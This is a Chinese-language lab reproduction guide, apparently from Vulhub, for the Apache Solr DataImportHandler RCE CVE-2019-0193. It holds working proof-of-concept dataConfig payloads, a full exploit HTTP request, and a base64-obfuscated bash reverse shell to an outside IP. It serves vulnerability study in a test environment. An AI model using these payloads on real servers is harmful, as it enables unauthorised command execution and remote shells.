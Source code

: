 # Apache Solr 远程命令执行漏洞 CVE-2019-0193

## 漏洞描述

漏洞原理与分析可以参考：

- https://mp.weixin.qq.com/s/typLOXZCev_9WH_Ux0s6oA
- https://paper.seebug.org/1009/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

本环境测试RCE漏洞。

## 漏洞影响

```
Apache Solr < 8.2.0
```

## 环境搭建

Vulhub运行漏洞环境：

```
docker-compose up -d
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

![image-20220301112741761](images/202203011127866.png)

如上图所示，首先打开刚刚创建好的`test`核心，选择Dataimport功能并选择debug模式，填入以下POC：

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

点击`Execute with this Confuguration`会发送以下请求包：

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: localhost:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 679
Connection: close
Referer: http://localhost:8983/solr/
Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport
```

![image-20220301112840020](images/202203011128146.png)

执行`docker-compose exec solr ls /tmp`，可见`/tmp/success`已成功创建：

![image-20220301112859192](images/202203011128257.png)

同样，构造反弹shell的POC：

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

![image-20220301113546676](images/202203011135782.png)

成功接收反弹shell：

![](images/202203011136596.png)

